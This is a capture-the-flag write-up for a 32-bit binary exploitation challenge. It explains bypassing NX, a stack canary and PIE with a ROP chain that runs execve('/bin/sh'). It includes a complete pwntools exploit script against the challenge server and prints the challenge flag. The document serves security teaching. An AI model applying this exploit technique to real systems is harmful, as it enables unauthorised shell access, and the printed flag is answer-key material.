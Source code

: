 # secret_base

## Authors

- @jjamme

## Category

- Binary Exploit

## Description

We aren't using gets this time so good luck trying to execute a buffer overflow

`nc pwn.ctf.unswsecurity.com 5003`

## Difficulty

- Medium

## Points

160

## Files

- `secret_base`: vulnerable binary

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Use ROP (return oriented programming) to create a chain of instructions which will run the instruciton `int 0x80` with `eax` as 11 to run the system call `execve`.

With the `ebx` register as `/bin/sh` but also ecx and edx as both 0, we will essentially run `execve("/bin/sh")`.

### Walkthrough

1. In `new_office`, we used a NOP sled to execute shellcode by returning to the address of the buffer with our shellcode. That worked because the binary did not have `NX` (non-executable stack) enabled.
   - With this flag, the binary will know not to execute any instructions if the `eip` is in the stack.
2. A stack canary and PIE will also have to be defeated in order to compelete this task
   - A canary is a 4 byte (in 32-bit systems) randomly generated sequence with the last byte being a null terminator. This prevents buffer overflow attack from happening by checking if the canary has been overwritten
   - PIE (position independent code) shuffles memory segments of the binary in order to randomise their locations in memory.
3. So get around this protection, we instead return into a group of instructions which are already in the binary. These group of instructions will have a `ret` instruction right after those group of instructions, these are called gadgets (i.e. `mov eax, ebx; ret;` or `inc eax, 1; ret;`).
4. We input `/bin/sh\x00` in the user input because in GDB we can see that after the `vuln` function returns, eax holds the user's input. We can then attach the right amount of bytes to reach the canary, and then we attach our ROP chain.
5. Using a tool like `ROPGadget` or `ropper` will allow you to search for certain gadgets which will help you create the ROP chain to syscall for `execve("/bin/sh")`
   - After we finish the `vuln` function, "/bin/sh" will be in eax so we will require a move to move the registers from one to the other.

```py
payload = b"/bin/sh\x00" + b"A" * 16 + canary
payload += b"AAAA"*3
payload += pack(base_addr + 0x14d7) # mov ebx, eax; ret;
```

- We next move 0xffd3 into eax and increment it until it is 0 to move into the other registers (ecx, edx).

```py
payload += pack(base_addr + 0x1347) # mov eax, 0xffd3; ret;
payload += pack(base_addr + 0x1335) * 45 # inc eax; ret;
payload += pack(base_addr + 0x12fa) # mov ebp, eax; ret;
payload += pack(base_addr + 0x130d) # mov ecx, ebp; mov edx, ebp; ret;
```

- Increment eax 11 more times to have eax equalling to 11 so that it system calls `execve`.

```py
payload += pack(base_addr + 0x1335) * 11 # inc eax; ret;
payload += pack(base_addr + 0x1322) # int 0x80;
```

Final script:

```py
from pwn import *

#context.log_level = "debug"
remote_conn = True

IP = "pwn.ctf.unswsecurity.com"
PORT = "5003"
FILENAME = "path/to/file"

#libc = ELF("")
#ld = ELF("")

if remote_conn:
    p = remote(IP, PORT)
    elf = ELF(FILENAME)
else:
    #p = process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
    p = process(FILENAME)
    elf = p.elf

p.recvuntil("isn't at: ")
leak = int(p.recvline()[:-1], 16)
log.info(hex(leak))

p.recvuntil("password is: ")
canary = p.recvline()[:-1]
log.info("canary: " + hex(unpack(canary)))

base_addr = leak - elf.sym["vuln"]
log.info("base: " + hex(base_addr))

payload = b"/bin/sh\x00" + b"A" * 16 + canary
payload += b"AAAA"*3
payload += pack(base_addr + 0x14d7) # mov ebx, eax; ret;
payload += pack(base_addr + 0x1347) # mov eax, 0xffd3; ret;
payload += pack(base_addr + 0x1335) * 45 # inc eax; ret;
payload += pack(base_addr + 0x12fa) # mov ebp, eax; ret;
payload += pack(base_addr + 0x130d) # mov ecx, ebp; mov edx, ebp; ret;
payload += pack(base_addr + 0x1335) * 11 # inc eax; ret;
payload += pack(base_addr + 0x1322) # int 0x80;
p.sendline(payload)

p.interactive()
```

### Flag

`SKYLIGHT{3x3CuTe_0ff1cE_5TACK}`

</details>
